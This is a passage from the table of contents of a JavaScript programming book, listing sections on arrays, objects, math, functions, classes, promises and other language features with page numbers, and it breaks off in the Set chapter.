[Section 12.8: Removing duplicate elements
[93](#section-12.8-removing-duplicate-elements)](#section-12.8-removing-duplicate-elements)

[Section 12.9: Array comparison
[93](#section-12.9-array-comparison)](#section-12.9-array-comparison)

[Section 12.10: Reversing arrays
[94](#section-12.10-reversing-arrays)](#section-12.10-reversing-arrays)

[Section 12.11: Shallow cloning an array
[95](#section-12.11-shallow-cloning-an-array)](#section-12.11-shallow-cloning-an-array)

[Section 12.12: Concatenating Arrays
[95](#section-12.12-concatenating-arrays)](#section-12.12-concatenating-arrays)

[Section 12.13: Merge two array as key value pair
[97](#section-12.13-merge-two-array-as-key-value-pair)](#section-12.13-merge-two-array-as-key-value-pair)

[Section 12.14: Array spread / rest
[97](#section-12.14-array-spread-rest)](#section-12.14-array-spread-rest)

[Section 12.15: Filtering values
[98](#section-12.15-filtering-values)](#section-12.15-filtering-values)

[Section 12.16: Searching an Array
[99](#section-12.16-searching-an-array)](#section-12.16-searching-an-array)

[Section 12.17: Convert a String to an Array
[100](#section-12.17-convert-a-string-to-an-array)](#section-12.17-convert-a-string-to-an-array)

[Section 12.18: Removing items from an array
[100](#section-12.18-removing-items-from-an-array)](#section-12.18-removing-items-from-an-array)

[Section 12.19: Removing all elements
[101](#section-12.19-removing-all-elements)](#section-12.19-removing-all-elements)

[Section 12.20: Finding the minimum or maximum element
[102](#section-12.20-finding-the-minimum-or-maximum-element)](#section-12.20-finding-the-minimum-or-maximum-element)

[Section 12.21: Standard array initialization
[103](#section-12.21-standard-array-initialization)](#section-12.21-standard-array-initialization)

[Section 12.22: Joining array elements in a string
[104](#section-12.22-joining-array-elements-in-a-string)](#section-12.22-joining-array-elements-in-a-string)

[Section 12.23: Removing/Adding elements using splice()
[105](#section-12.23-removingadding-elements-using-splice)](#section-12.23-removingadding-elements-using-splice)

[Section 12.24: The entries() method
[105](#section-12.24-the-entries-method)](#section-12.24-the-entries-method)

[Section 12.25: Remove value from array
[105](#section-12.25-remove-value-from-array)](#section-12.25-remove-value-from-array)

[Section 12.26: Flattening Arrays
[106](#section-12.26-flattening-arrays)](#section-12.26-flattening-arrays)

[Section 12.27: Append / Prepend items to Array
[107](#section-12.27-append-prepend-items-to-array)](#section-12.27-append-prepend-items-to-array)

[Section 12.28: Object keys and values to array
[107](#section-12.28-object-keys-and-values-to-array)](#section-12.28-object-keys-and-values-to-array)

[Section 12.29: Logical connective of values
[108](#section-12.29-logical-connective-of-values)](#section-12.29-logical-connective-of-values)

[Section 12.30: Checking if an object is an Array
[108](#section-12.30-checking-if-an-object-is-an-array)](#section-12.30-checking-if-an-object-is-an-array)

[Section 12.31: Insert an item into an array at a specific index
[109](#section-12.31-insert-an-item-into-an-array-at-a-specific-index)](#section-12.31-insert-an-item-into-an-array-at-a-specific-index)

[Section 12.32: Sorting multidimensional array
[109](#section-12.32-sorting-multidimensional-array)](#section-12.32-sorting-multidimensional-array)

[Section 12.33: Test all array items for equality
[110](#section-12.33-test-all-array-items-for-equality)](#section-12.33-test-all-array-items-for-equality)

[Section 12.34: Copy part of an Array
[110](#section-12.34-copy-part-of-an-array)](#section-12.34-copy-part-of-an-array)

[**Chapter 13: Objects**
[112](#chapter-13-objects)](#chapter-13-objects)

[Section 13.1: Shallow cloning
[112](#section-13.1-shallow-cloning)](#section-13.1-shallow-cloning)

[Section 13.2: Object.freeze
[112](#section-13.2-object.freeze)](#section-13.2-object.freeze)

[Section 13.3: Object cloning
[113](#section-13.3-object-cloning)](#section-13.3-object-cloning)

[Section 13.4: Object properties iteration
[114](#section-13.4-object-properties-iteration)](#section-13.4-object-properties-iteration)

[Section 13.5: Object.assign
[115](#section-13.5-object.assign)](#section-13.5-object.assign)

[Section 13.6: Object rest/spread (\...)
[116](#section-13.6-object-restspread-...)](#section-13.6-object-restspread-...)

[Section 13.7: Object.defineProperty
[116](#section-13.7-object.defineproperty)](#section-13.7-object.defineproperty)

[Section 13.8: Accesor properties (get and set)
[117](#section-13.8-accesor-properties-get-and-set)](#section-13.8-accesor-properties-get-and-set)

[Section 13.9: Dynamic / variable property names
[117](#section-13.9-dynamic-variable-property-names)](#section-13.9-dynamic-variable-property-names)

[Section 13.10: Arrays are Objects
[118](#section-13.10-arrays-are-objects)](#section-13.10-arrays-are-objects)

[Section 13.11: Object.seal
[119](#section-13.11-object.seal)](#section-13.11-object.seal)

[Section 13.12: Convert object\'s values to array
[120](#section-13.12-convert-objects-values-to-array)](#section-13.12-convert-objects-values-to-array)

[Section 13.13: Retrieving properties from an object
[120](#section-13.13-retrieving-properties-from-an-object)](#section-13.13-retrieving-properties-from-an-object)

[Section 13.14: Read-Only property
[123](#section-13.14-read-only-property)](#section-13.14-read-only-property)

[Section 13.15: Non enumerable property
[123](#section-13.15-non-enumerable-property)](#section-13.15-non-enumerable-property)

[Section 13.16: Lock property description
[123](#section-13.16-lock-property-description)](#section-13.16-lock-property-description)

[Section 13.17: Object.getOwnPropertyDescriptor
[124](#section-13.17-object.getownpropertydescriptor)](#section-13.17-object.getownpropertydescriptor)

[Section 13.18: Descriptors and Named Properties
[124](#section-13.18-descriptors-and-named-properties)](#section-13.18-descriptors-and-named-properties)

[Section 13.19: Object.keys
[126](#section-13.19-object.keys)](#section-13.19-object.keys)

[Section 13.20: Properties with special characters or reserved words
[126](#section-13.20-properties-with-special-characters-or-reserved-words)](#section-13.20-properties-with-special-characters-or-reserved-words)

[Section 13.21: Creating an Iterable object
[127](#section-13.21-creating-an-iterable-object)](#section-13.21-creating-an-iterable-object)

[Section 13.22: Iterating over Object entries - Object.entries()
[127](#section-13.22-iterating-over-object-entriesobject.entries)](#section-13.22-iterating-over-object-entriesobject.entries)

[Section 13.23: Object.values()
[128](#section-13.23-object.values)](#section-13.23-object.values)

[**Chapter 14: Arithmetic (Math)**
[129](#chapter-14-arithmetic-math)](#chapter-14-arithmetic-math)

[Section 14.1: Constants
[129](#section-14.1-constants)](#section-14.1-constants)

[Section 14.2: Remainder / Modulus (%)
[129](#section-14.2-remainder-modulus)](#section-14.2-remainder-modulus)

[Section 14.3: Rounding
[130](#section-14.3-rounding)](#section-14.3-rounding)

[Section 14.4: Trigonometry
[132](#section-14.4-trigonometry)](#section-14.4-trigonometry)

[Section 14.5: Bitwise operators
[133](#section-14.5-bitwise-operators)](#section-14.5-bitwise-operators)

[Section 14.6: Incrementing (++)
[135](#section-14.6-incrementing)](#section-14.6-incrementing)

[Section 14.7: Exponentiation (Math.pow() or \*\*)
[135](#section-14.7-exponentiation-math.pow-or)](#section-14.7-exponentiation-math.pow-or)

[Section 14.8: Random Integers and Floats
[136](#section-14.8-random-integers-and-floats)](#section-14.8-random-integers-and-floats)

[Section 14.9: Addition (+)
[137](#section-14.9-addition)](#section-14.9-addition)

[Section 14.10: Little / Big endian for typed arrays when using bitwise
operators
[137](#section-14.10-little-big-endian-for-typed-arrays-when-using-bitwise-operators)](#section-14.10-little-big-endian-for-typed-arrays-when-using-bitwise-operators)

[Section 14.11: Get Random Between Two Numbers
[138](#section-14.11-get-random-between-two-numbers)](#section-14.11-get-random-between-two-numbers)

[Section 14.12: Simulating events with dierent probabilities
[139](#section-14.12-simulating-events-with-dierent-probabilities)](#section-14.12-simulating-events-with-dierent-probabilities)

[Section 14.13: Subtraction (-)
[140](#section-14.13-subtraction)](#section-14.13-subtraction)

[Section 14.14: Multiplication (\*)
[140](#section-14.14-multiplication)](#section-14.14-multiplication)

[Section 14.15: Getting maximum and minimum
[140](#section-14.15-getting-maximum-and-minimum)](#section-14.15-getting-maximum-and-minimum)

[Section 14.16: Restrict Number to Min/Max Range
[141](#section-14.16-restrict-number-to-minmax-range)](#section-14.16-restrict-number-to-minmax-range)

[Section 14.17: Ceiling and Floor
[141](#section-14.17-ceiling-and-floor)](#section-14.17-ceiling-and-floor)

[Section 14.18: Getting roots of a number
[142](#section-14.18-getting-roots-of-a-number)](#section-14.18-getting-roots-of-a-number)

[Section 14.19: Random with gaussian distribution
[142](#section-14.19-random-with-gaussian-distribution)](#section-14.19-random-with-gaussian-distribution)

[Section 14.20: Math.atan2 to find direction
[143](#section-14.20-math.atan2-to-find-direction)](#section-14.20-math.atan2-to-find-direction)

[Section 14.21: Sin & Cos to create a vector given direction & distance
[143](#section-14.21-sin-cos-to-create-a-vector-given-direction-distance)](#section-14.21-sin-cos-to-create-a-vector-given-direction-distance)

[Section 14.22: Math.hypot
[144](#section-14.22-math.hypot)](#section-14.22-math.hypot)

[Section 14.23: Periodic functions using Math.sin
[145](#section-14.23-periodic-functions-using-math.sin)](#section-14.23-periodic-functions-using-math.sin)

[Section 14.24: Division (/)
[146](#section-14.24-division)](#section-14.24-division)

[Section 14.25: Decrementing (\)
[146](#section-14.25-decrementing)](#section-14.25-decrementing)

[**Chapter 15: Bitwise operators**
[148](#chapter-15-bitwise-operators)](#chapter-15-bitwise-operators)

[Section 15.1: Bitwise operators
[148](#section-15.1-bitwise-operators)](#section-15.1-bitwise-operators)

[Section 15.2: Shift Operators
[150](#section-15.2-shift-operators)](#section-15.2-shift-operators)

[**Chapter 16: Constructor functions**
[151](#chapter-16-constructor-functions)](#chapter-16-constructor-functions)

[Section 16.1: Declaring a constructor function
[151](#section-16.1-declaring-a-constructor-function)](#section-16.1-declaring-a-constructor-function)

[**Chapter 17: Declarations and Assignments**
[152](#chapter-17-declarations-and-assignments)](#chapter-17-declarations-and-assignments)

[Section 17.1: Modifying constants
[152](#section-17.1-modifying-constants)](#section-17.1-modifying-constants)

[Section 17.2: Declaring and initializing constants
[152](#section-17.2-declaring-and-initializing-constants)](#section-17.2-declaring-and-initializing-constants)

[Section 17.3: Declaration
[152](#section-17.3-declaration)](#section-17.3-declaration)

[Section 17.4: Undefined
[153](#section-17.4-undefined)](#section-17.4-undefined)

[Section 17.5: Data Types
[153](#section-17.5-data-types)](#section-17.5-data-types)

[Section 17.6: Mathematic operations and assignment
[153](#section-17.6-mathematic-operations-and-assignment)](#section-17.6-mathematic-operations-and-assignment)

[Section 17.7: Assignment
[155](#section-17.7-assignment)](#section-17.7-assignment)

[**Chapter 18: Loops** [156](#chapter-18-loops)](#chapter-18-loops)

[Section 18.1: Standard \"for\" loops
[156](#section-18.1-standard-for-loops)](#section-18.1-standard-for-loops)

[Section 18.2: \"for \... of\" loop
[157](#section-18.2-for-...-of-loop)](#section-18.2-for-...-of-loop)

[Section 18.3: \"for \... in\" loop
[159](#section-18.3-for-...-in-loop)](#section-18.3-for-...-in-loop)

[Section 18.4: \"while\" Loops
[159](#section-18.4-while-loops)](#section-18.4-while-loops)

[Section 18.5: \"continue\" a loop
[160](#section-18.5-continue-a-loop)](#section-18.5-continue-a-loop)

[Section 18.6: Break specific nested loops
[161](#section-18.6-break-specific-nested-loops)](#section-18.6-break-specific-nested-loops)

[Section 18.7: \"do \... while\" loop
[161](#section-18.7-do-...-while-loop)](#section-18.7-do-...-while-loop)

[Section 18.8: Break and continue labels
[161](#section-18.8-break-and-continue-labels)](#section-18.8-break-and-continue-labels)

[**Chapter 19: Functions**
[163](#chapter-19-functions)](#chapter-19-functions)

[Section 19.1: Function Scoping
[163](#section-19.1-function-scoping)](#section-19.1-function-scoping)

[Section 19.2: Currying
[164](#section-19.2-currying)](#section-19.2-currying)

[Section 19.3: Immediately Invoked Function Expressions
[165](#section-19.3-immediately-invoked-function-expressions)](#section-19.3-immediately-invoked-function-expressions)

[Section 19.4: Named Functions
[166](#section-19.4-named-functions)](#section-19.4-named-functions)

[Section 19.5: Binding \`this\` and arguments
[169](#section-19.5-binding-this-and-arguments)](#section-19.5-binding-this-and-arguments)

[Section 19.6: Functions with an Unknown Number of Arguments (variadic
functions)
[171](#section-19.6-functions-with-an-unknown-number-of-arguments-variadic-functions)](#section-19.6-functions-with-an-unknown-number-of-arguments-variadic-functions)

[Section 19.7: Anonymous Function
[172](#section-19.7-anonymous-function)](#section-19.7-anonymous-function)

[Section 19.8: Default parameters
[174](#section-19.8-default-parameters)](#section-19.8-default-parameters)

[Section 19.9: Call and apply
[176](#section-19.9-call-and-apply)](#section-19.9-call-and-apply)

[Section 19.10: Partial Application
[177](#section-19.10-partial-application)](#section-19.10-partial-application)

[Section 19.11: Passing arguments by reference or value
[178](#section-19.11-passing-arguments-by-reference-or-value)](#section-19.11-passing-arguments-by-reference-or-value)

[Section 19.12: Function Arguments, \"arguments\" object, rest and
spread parameters
[179](#section-19.12-function-arguments-arguments-object-rest-and-spread-parameters)](#section-19.12-function-arguments-arguments-object-rest-and-spread-parameters)

[Section 19.13: Function Composition
[179](#section-19.13-function-composition)](#section-19.13-function-composition)

[Section 19.14: Get the name of a function object
[180](#section-19.14-get-the-name-of-a-function-object)](#section-19.14-get-the-name-of-a-function-object)

[Section 19.15: Recursive Function
[180](#section-19.15-recursive-function)](#section-19.15-recursive-function)

[Section 19.16: Using the Return Statement
[181](#section-19.16-using-the-return-statement)](#section-19.16-using-the-return-statement)

[Section 19.17: Functions as a variable
[182](#section-19.17-functions-as-a-variable)](#section-19.17-functions-as-a-variable)

[**Chapter 20: Functional JavaScript**
[185](#chapter-20-functional-javascript)](#chapter-20-functional-javascript)

[Section 20.1: Higher-Order Functions
[185](#section-20.1-higher-order-functions)](#section-20.1-higher-order-functions)

[Section 20.2: Identity Monad
[185](#section-20.2-identity-monad)](#section-20.2-identity-monad)

[Section 20.3: Pure Functions
[187](#section-20.3-pure-functions)](#section-20.3-pure-functions)

[Section 20.4: Accepting Functions as Arguments
[188](#section-20.4-accepting-functions-as-arguments)](#section-20.4-accepting-functions-as-arguments)

[**Chapter 21: Prototypes, objects**
[190](#chapter-21-prototypes-objects)](#chapter-21-prototypes-objects)

[Section 21.1: Creation and initialising Prototype
[190](#section-21.1-creation-and-initialising-prototype)](#section-21.1-creation-and-initialising-prototype)

[**Chapter 22: Classes**
[192](#chapter-22-classes)](#chapter-22-classes)

[Section 22.1: Class Constructor
[192](#section-22.1-class-constructor)](#section-22.1-class-constructor)

[Section 22.2: Class Inheritance
[192](#section-22.2-class-inheritance)](#section-22.2-class-inheritance)

[Section 22.3: Static Methods
[193](#section-22.3-static-methods)](#section-22.3-static-methods)

[Section 22.4: Getters and Setters
[193](#section-22.4-getters-and-setters)](#section-22.4-getters-and-setters)

[Section 22.5: Private Members
[194](#section-22.5-private-members)](#section-22.5-private-members)

[Section 22.6: Methods
[195](#section-22.6-methods)](#section-22.6-methods)

[Section 22.7: Dynamic Method Names
[195](#section-22.7-dynamic-method-names)](#section-22.7-dynamic-method-names)

[Section 22.8: Managing Private Data with Classes
[196](#section-22.8-managing-private-data-with-classes)](#section-22.8-managing-private-data-with-classes)

[Section 22.9: Class Name binding
[198](#section-22.9-class-name-binding)](#section-22.9-class-name-binding)

[**Chapter 23: Namespacing**
[199](#chapter-23-namespacing)](#chapter-23-namespacing)

[Section 23.1: Namespace by direct assignment
[199](#section-23.1-namespace-by-direct-assignment)](#section-23.1-namespace-by-direct-assignment)

[Section 23.2: Nested Namespaces
[199](#section-23.2-nested-namespaces)](#section-23.2-nested-namespaces)

[**Chapter 24: Context (this)**
[200](#chapter-24-context-this)](#chapter-24-context-this)

[Section 24.1: this with simple objects
[200](#section-24.1-this-with-simple-objects)](#section-24.1-this-with-simple-objects)

[Section 24.2: Saving this for use in nested functions / objects
[200](#section-24.2-saving-this-for-use-in-nested-functions-objects)](#section-24.2-saving-this-for-use-in-nested-functions-objects)

[Section 24.3: Binding function context
[201](#section-24.3-binding-function-context)](#section-24.3-binding-function-context)

[Section 24.4: this in constructor functions
[202](#section-24.4-this-in-constructor-functions)](#section-24.4-this-in-constructor-functions)

[**Chapter 25: Setters and Getters**
[203](#chapter-25-setters-and-getters)](#chapter-25-setters-and-getters)

[Section 25.1: Defining a Setter/Getter Using Object.defineProperty
[203](#section-25.1-defining-a-settergetter-using-object.defineproperty)](#section-25.1-defining-a-settergetter-using-object.defineproperty)

[Section 25.2: Defining an Setter/Getter in a Newly Created Object
[203](#section-25.2-defining-an-settergetter-in-a-newly-created-object)](#section-25.2-defining-an-settergetter-in-a-newly-created-object)

[Section 25.3: Defining getters and setters in ES6 class
[203](#section-25.3-defining-getters-and-setters-in-es6-class)](#section-25.3-defining-getters-and-setters-in-es6-class)

[**Chapter 26: Events** [205](#chapter-26-events)](#chapter-26-events)

[Section 26.1: Page, DOM and Browser loading
[205](#section-26.1-page-dom-and-browser-loading)](#section-26.1-page-dom-and-browser-loading)

[**Chapter 27: Inheritance**
[206](#chapter-27-inheritance)](#chapter-27-inheritance)

[Section 27.1: Standard function prototype
[206](#section-27.1-standard-function-prototype)](#section-27.1-standard-function-prototype)

[Section 27.2: Dierence between Object.key and Object.prototype.key
[206](#section-27.2-dierence-between-object.key-and-object.prototype.key)](#section-27.2-dierence-between-object.key-and-object.prototype.key)

[Section 27.3: Prototypal inheritance
[206](#section-27.3-prototypal-inheritance)](#section-27.3-prototypal-inheritance)

[Section 27.4: Pseudo-classical inheritance
[207](#section-27.4-pseudo-classical-inheritance)](#section-27.4-pseudo-classical-inheritance)

[Section 27.5: Setting an Object\'s prototype
[208](#section-27.5-setting-an-objects-prototype)](#section-27.5-setting-an-objects-prototype)

[**Chapter 28: Method Chaining**
[210](#chapter-28-method-chaining)](#chapter-28-method-chaining)

[Section 28.1: Chainable object design and chaining
[210](#section-28.1-chainable-object-design-and-chaining)](#section-28.1-chainable-object-design-and-chaining)

[Section 28.2: Method Chaining
[212](#section-28.2-method-chaining)](#section-28.2-method-chaining)

[**Chapter 29: Callbacks**
[213](#chapter-29-callbacks)](#chapter-29-callbacks)

[Section 29.1: Simple Callback Usage Examples
[213](#section-29.1-simple-callback-usage-examples)](#section-29.1-simple-callback-usage-examples)

[Section 29.2: Continuation (synchronous and asynchronous)
[214](#section-29.2-continuation-synchronous-and-asynchronous)](#section-29.2-continuation-synchronous-and-asynchronous)

[Section 29.3: What is a callback?
[215](#section-29.3-what-is-a-callback)](#section-29.3-what-is-a-callback)

[Section 29.4: Callbacks and \`this\`
[216](#section-29.4-callbacks-and-this)](#section-29.4-callbacks-and-this)

[Section 29.5: Callback using Arrow function
[217](#section-29.5-callback-using-arrow-function)](#section-29.5-callback-using-arrow-function)

[Section 29.6: Error handling and control-flow branching
[218](#section-29.6-error-handling-and-control-flow-branching)](#section-29.6-error-handling-and-control-flow-branching)

[**Chapter 30: Intervals and Timeouts**
[219](#chapter-30-intervals-and-timeouts)](#chapter-30-intervals-and-timeouts)

[Section 30.1: Recursive setTimeout
[219](#section-30.1-recursive-settimeout)](#section-30.1-recursive-settimeout)

[Section 30.2: Intervals
[219](#section-30.2-intervals)](#section-30.2-intervals)

[Section 30.3: Intervals
[219](#section-30.3-intervals)](#section-30.3-intervals)

[Section 30.4: Removing intervals
[220](#section-30.4-removing-intervals)](#section-30.4-removing-intervals)

[Section 30.5: Removing timeouts
[220](#section-30.5-removing-timeouts)](#section-30.5-removing-timeouts)

[Section 30.6: setTimeout, order of operations, clearTimeout
[220](#section-30.6-settimeout-order-of-operations-cleartimeout)](#section-30.6-settimeout-order-of-operations-cleartimeout)

[**Chapter 31: Regular expressions**
[222](#chapter-31-regular-expressions)](#chapter-31-regular-expressions)

[Section 31.1: Creating a RegExp Object
[222](#section-31.1-creating-a-regexp-object)](#section-31.1-creating-a-regexp-object)

[Section 31.2: RegExp Flags
[222](#section-31.2-regexp-flags)](#section-31.2-regexp-flags)

[Section 31.3: Check if string contains pattern using .test()
[223](#section-31.3-check-if-string-contains-pattern-using-.test)](#section-31.3-check-if-string-contains-pattern-using-.test)

[Section 31.4: Matching With .exec()
[223](#section-31.4-matching-with-.exec)](#section-31.4-matching-with-.exec)

[Section 31.5: Using RegExp With Strings
[223](#section-31.5-using-regexp-with-strings)](#section-31.5-using-regexp-with-strings)

[Section 31.6: RegExp Groups
[224](#section-31.6-regexp-groups)](#section-31.6-regexp-groups)

[Section 31.7: Replacing string match with a callback function
[225](#section-31.7-replacing-string-match-with-a-callback-function)](#section-31.7-replacing-string-match-with-a-callback-function)

[Section 31.8: Using Regex.exec() with parentheses regex to extract
matches of a string
[226](#section-31.8-using-regex.exec-with-parentheses-regex-to-extract-matches-of-a-string)](#section-31.8-using-regex.exec-with-parentheses-regex-to-extract-matches-of-a-string)

[**Chapter 32: Cookies**
[228](#chapter-32-cookies)](#chapter-32-cookies)

[Section 32.1: Test if cookies are enabled
[228](#section-32.1-test-if-cookies-are-enabled)](#section-32.1-test-if-cookies-are-enabled)

[Section 32.2: Adding and Setting Cookies
[228](#section-32.2-adding-and-setting-cookies)](#section-32.2-adding-and-setting-cookies)

[Section 32.3: Reading cookies
[228](#section-32.3-reading-cookies)](#section-32.3-reading-cookies)

[Section 32.4: Removing cookies
[228](#section-32.4-removing-cookies)](#section-32.4-removing-cookies)

[**Chapter 33: Web Storage**
[229](#chapter-33-web-storage)](#chapter-33-web-storage)

[Section 33.1: Using localStorage
[229](#section-33.1-using-localstorage)](#section-33.1-using-localstorage)

[Section 33.2: Simpler way of handling Storage
[229](#section-33.2-simpler-way-of-handling-storage)](#section-33.2-simpler-way-of-handling-storage)

[Section 33.3: Storage events
[230](#section-33.3-storage-events)](#section-33.3-storage-events)

[Section 33.4: sessionStorage
[231](#section-33.4-sessionstorage)](#section-33.4-sessionstorage)

[Section 33.5: localStorage length
[232](#section-33.5-localstorage-length)](#section-33.5-localstorage-length)

[Section 33.6: Error conditions
[232](#section-33.6-error-conditions)](#section-33.6-error-conditions)

[Section 33.7: Clearing storage
[232](#section-33.7-clearing-storage)](#section-33.7-clearing-storage)

[Section 33.8: Remove Storage Item
[232](#section-33.8-remove-storage-item)](#section-33.8-remove-storage-item)

[**Chapter 34: Data attributes**
[233](#chapter-34-data-attributes)](#chapter-34-data-attributes)

[Section 34.1: Accessing data attributes
[233](#section-34.1-accessing-data-attributes)](#section-34.1-accessing-data-attributes)

[**Chapter 35: JSON** [234](#chapter-35-json)](#chapter-35-json)

[Section 35.1: JSON versus JavaScript literals
[234](#section-35.1-json-versus-javascript-literals)](#section-35.1-json-versus-javascript-literals)

[Section 35.2: Parsing with a reviver function
[235](#section-35.2-parsing-with-a-reviver-function)](#section-35.2-parsing-with-a-reviver-function)

[Section 35.3: Serializing a value
[236](#section-35.3-serializing-a-value)](#section-35.3-serializing-a-value)

[Section 35.4: Serializing and restoring class instances
[237](#section-35.4-serializing-and-restoring-class-instances)](#section-35.4-serializing-and-restoring-class-instances)

[Section 35.5: Serializing with a replacer function
[238](#section-35.5-serializing-with-a-replacer-function)](#section-35.5-serializing-with-a-replacer-function)

[Section 35.6: Parsing a simple JSON string
[239](#section-35.6-parsing-a-simple-json-string)](#section-35.6-parsing-a-simple-json-string)

[Section 35.7: Cyclic object values
[239](#section-35.7-cyclic-object-values)](#section-35.7-cyclic-object-values)

[**Chapter 36: AJAX** [240](#chapter-36-ajax)](#chapter-36-ajax)

[Section 36.1: Sending and Receiving JSON Data via POST
[240](#section-36.1-sending-and-receiving-json-data-via-post)](#section-36.1-sending-and-receiving-json-data-via-post)

[Section 36.2: Add an AJAX preloader
[240](#section-36.2-add-an-ajax-preloader)](#section-36.2-add-an-ajax-preloader)

[Section 36.3: Displaying the top JavaScript questions of the month from
Stack Overflow\'s API
[241](#section-36.3-displaying-the-top-javascript-questions-of-the-month-from-stack-overflows-api)](#section-36.3-displaying-the-top-javascript-questions-of-the-month-from-stack-overflows-api)

[Section 36.4: Using GET with parameters
[242](#section-36.4-using-get-with-parameters)](#section-36.4-using-get-with-parameters)

[Section 36.5: Check if a file exists via a HEAD request
[243](#section-36.5-check-if-a-file-exists-via-a-head-request)](#section-36.5-check-if-a-file-exists-via-a-head-request)

[Section 36.6: Using GET and no parameters
[243](#section-36.6-using-get-and-no-parameters)](#section-36.6-using-get-and-no-parameters)

[Section 36.7: Listening to AJAX events at a global level
[243](#section-36.7-listening-to-ajax-events-at-a-global-level)](#section-36.7-listening-to-ajax-events-at-a-global-level)

[**Chapter 37: Enumerations**
[244](#chapter-37-enumerations)](#chapter-37-enumerations)

[Section 37.1: Enum definition using Object.freeze()
[244](#section-37.1-enum-definition-using-object.freeze)](#section-37.1-enum-definition-using-object.freeze)

[Section 37.2: Alternate definition
[244](#section-37.2-alternate-definition)](#section-37.2-alternate-definition)

[Section 37.3: Printing an enum variable
[244](#section-37.3-printing-an-enum-variable)](#section-37.3-printing-an-enum-variable)

[Section 37.4: Implementing Enums Using Symbols
[245](#section-37.4-implementing-enums-using-symbols)](#section-37.4-implementing-enums-using-symbols)

[Section 37.5: Automatic Enumeration Value
[245](#section-37.5-automatic-enumeration-value)](#section-37.5-automatic-enumeration-value)

[**Chapter 38: Map** [247](#chapter-38-map)](#chapter-38-map)

[Section 38.1: Creating a Map
[247](#section-38.1-creating-a-map)](#section-38.1-creating-a-map)

[Section 38.2: Clearing a Map
[247](#section-38.2-clearing-a-map)](#section-38.2-clearing-a-map)

[Section 38.3: Removing an element from a Map
[247](#section-38.3-removing-an-element-from-a-map)](#section-38.3-removing-an-element-from-a-map)

[Section 38.4: Checking if a key exists in a Map
[248](#section-38.4-checking-if-a-key-exists-in-a-map)](#section-38.4-checking-if-a-key-exists-in-a-map)

[Section 38.5: Iterating Maps
[248](#section-38.5-iterating-maps)](#section-38.5-iterating-maps)

[Section 38.6: Getting and setting elements
[248](#section-38.6-getting-and-setting-elements)](#section-38.6-getting-and-setting-elements)

[Section 38.7: Getting the number of elements of a Map
[249](#section-38.7-getting-the-number-of-elements-of-a-map)](#section-38.7-getting-the-number-of-elements-of-a-map)

[**Chapter 39: Timestamps**
[250](#chapter-39-timestamps)](#chapter-39-timestamps)

[Section 39.1: High-resolution timestamps
[250](#section-39.1-high-resolution-timestamps)](#section-39.1-high-resolution-timestamps)

[Section 39.2: Get Timestamp in Seconds
[250](#section-39.2-get-timestamp-in-seconds)](#section-39.2-get-timestamp-in-seconds)

[Section 39.3: Low-resolution timestamps
[250](#section-39.3-low-resolution-timestamps)](#section-39.3-low-resolution-timestamps)

[Section 39.4: Support for legacy browsers
[250](#section-39.4-support-for-legacy-browsers)](#section-39.4-support-for-legacy-browsers)

[**Chapter 40: Unary Operators**
[251](#chapter-40-unary-operators)](#chapter-40-unary-operators)

[Section 40.1: Overview
[251](#section-40.1-overview)](#section-40.1-overview)

[Section 40.2: The typeof operator
[251](#section-40.2-the-typeof-operator)](#section-40.2-the-typeof-operator)

[Section 40.3: The delete operator
[252](#section-40.3-the-delete-operator)](#section-40.3-the-delete-operator)

[Section 40.4: The unary plus operator (+)
[253](#section-40.4-the-unary-plus-operator)](#section-40.4-the-unary-plus-operator)

[Section 40.5: The void operator
[254](#section-40.5-the-void-operator)](#section-40.5-the-void-operator)

[Section 40.6: The unary negation operator (-)
[255](#section-40.6-the-unary-negation-operator)](#section-40.6-the-unary-negation-operator)

[Section 40.7: The bitwise NOT operator (\~)
[255](#section-40.7-the-bitwise-not-operator)](#section-40.7-the-bitwise-not-operator)

[Section 40.8: The logical NOT operator (!)
[256](#section-40.8-the-logical-not-operator)](#section-40.8-the-logical-not-operator)

[**Chapter 41: Generators**
[258](#chapter-41-generators)](#chapter-41-generators)

[Section 41.1: Generator Functions
[258](#section-41.1-generator-functions)](#section-41.1-generator-functions)

[Section 41.2: Sending Values to Generator
[259](#section-41.2-sending-values-to-generator)](#section-41.2-sending-values-to-generator)

[Section 41.3: Delegating to other Generator
[259](#section-41.3-delegating-to-other-generator)](#section-41.3-delegating-to-other-generator)

[Section 41.4: Iteration
[259](#section-41.4-iteration)](#section-41.4-iteration)

[Section 41.5: Async flow with generators
[260](#section-41.5-async-flow-with-generators)](#section-41.5-async-flow-with-generators)

[Section 41.6: Iterator-Observer interface
[261](#section-41.6-iterator-observer-interface)](#section-41.6-iterator-observer-interface)

[**Chapter 42: Promises**
[263](#chapter-42-promises)](#chapter-42-promises)

[Section 42.1: Introduction
[263](#section-42.1-introduction)](#section-42.1-introduction)

[Section 42.2: Promise chaining
[264](#section-42.2-promise-chaining)](#section-42.2-promise-chaining)

[Section 42.3: Waiting for multiple concurrent promises
[265](#section-42.3-waiting-for-multiple-concurrent-promises)](#section-42.3-waiting-for-multiple-concurrent-promises)

[Section 42.4: Reduce an array to chained promises
[266](#section-42.4-reduce-an-array-to-chained-promises)](#section-42.4-reduce-an-array-to-chained-promises)

[Section 42.5: Waiting for the first of multiple concurrent promises
[267](#section-42.5-waiting-for-the-first-of-multiple-concurrent-promises)](#section-42.5-waiting-for-the-first-of-multiple-concurrent-promises)

[Section 42.6: \"Promisifying\" functions with callbacks
[268](#section-42.6-promisifying-functions-with-callbacks)](#section-42.6-promisifying-functions-with-callbacks)

[Section 42.7: Error Handling
[268](#section-42.7-error-handling)](#section-42.7-error-handling)

[Section 42.8: Reconciling synchronous and asynchronous operations
[272](#section-42.8-reconciling-synchronous-and-asynchronous-operations)](#section-42.8-reconciling-synchronous-and-asynchronous-operations)

[Section 42.9: Delay function call
[273](#section-42.9-delay-function-call)](#section-42.9-delay-function-call)

[Section 42.10: \"Promisifying\" values
[273](#section-42.10-promisifying-values)](#section-42.10-promisifying-values)

[Section 42.11: Using ES2017 async/await
[274](#section-42.11-using-es2017-asyncawait)](#section-42.11-using-es2017-asyncawait)

[Section 42.12: Performing cleanup with finally()
[274](#section-42.12-performing-cleanup-with-finally)](#section-42.12-performing-cleanup-with-finally)

[Section 42.13: forEach with promises
[275](#section-42.13-foreach-with-promises)](#section-42.13-foreach-with-promises)

[Section 42.14: Asynchronous API request
[275](#section-42.14-asynchronous-api-request)](#section-42.14-asynchronous-api-request)

[**Chapter 43: Set** [277](#chapter-43-set)](#chapter-43-set)

[Section 43.1: Creating a Set
[277](#section-43.1-creating-a-set)](#section-43.1-creating-a-set)

[Section 43.2: Adding a value to a Set
